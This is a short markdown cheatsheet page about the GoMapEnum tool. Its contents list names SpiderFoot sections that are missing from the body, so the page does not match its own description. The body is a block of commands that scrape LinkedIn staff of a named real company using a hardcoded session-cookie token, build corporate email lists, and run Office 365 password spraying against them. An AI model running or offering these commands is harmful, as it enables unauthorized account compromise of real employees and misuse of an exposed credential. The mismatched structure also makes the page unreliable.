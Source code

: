 ```yaml
---
layout: post
title: GoMapEnum Cheatsheet 
parent: OSINT
category: OSINT
grand_parent: Cheatsheets
modified_date: 2021-11-23
permalink: /:categories/:title/
---
```

<!-- vscode-markdown-toc -->
* 1. [SpiderFoot Install](#SpiderFootInstall)
* 2. [SFCLI \ Execution](#SFCLIExecution)
* 3. [SFCLI \ Getting Started](#SFCLIGettingStarted)
* 4. [SFCLI \ Module Shodan](#SFCLIModuleShodan)
* 5. [SFCLI \ Module HaveIBeenPwned](#SFCLIModuleHaveIBeenPwned)
* 6. [SFCLI \ Module DNSrecon](#SFCLIModuleDNSrecon)
* 7. [SFCLI \ Module CRT](#SFCLIModuleCRT)
* 8. [SFCLI \ Module whatcms](#SFCLIModulewhatcms)

<!-- vscode-markdown-toc-config
	numbering=true
	autoSave=true
	/vscode-markdown-toc-config -->
<!-- /vscode-markdown-toc -->

##  1. <a name='SpiderFootInstall'></a>SpiderFoot Install
- [Sysadmin Docker Cheatsheet](/sysadmin/2021/10/26/sys-cli-docker.html)
```
sudo docker run -it 065ac3b1a78f -v /home/jomivz/git/TO-BKP:/mnt
apk add git
git clone  https://github.com/nodauf/GoMapEnum.git
cd GoMapEnum/
go run src/main.go gather linkedin -c "luxottica retail" -s AQEDAQFOIcQFIdfNAAABfZokKwIAAAF9vjCvAk0AW4qE0Ucp85IDX9Qc_5QCWGvwXZCA1BRbDhjFl4lGaBgkp6JXoCZ488MZu9XK1HnhG4jc7wTxwzdpQAOHCutZbJckZiEwJP7ZdV7gUS7A5XAPmcax -f {f}{last}i@luxotticaretail.com -o /mnt/luxor_users.txt
go run src/main.go gather linkedin -c luxottica -s AQEDAQFOIcQFIdfNAAABfZokKwIAAAF9vjCvAk0AW4qE0Ucp85IDX9Qc_5QCWGvwXZCA1BRbDhjFl4lGaBgkp6JXoCZ488MZu9XK1HnhG4jc7wTxwzdpQAOHCutZbJckZiEwJP7ZdV7gUS7A5XAPmcax -f {first}.{last}i@luxottica.com -o /mnt/luxo_users.txt
go run src/main.go bruteSpray o365 -u /mnt/luxor_users.txt  -p /mnt/pass.txt -l 2
go run src/main.go bruteSpray o365 -u /mnt/luxo_users.txt  -p /mnt/pass.txt -l 2

```
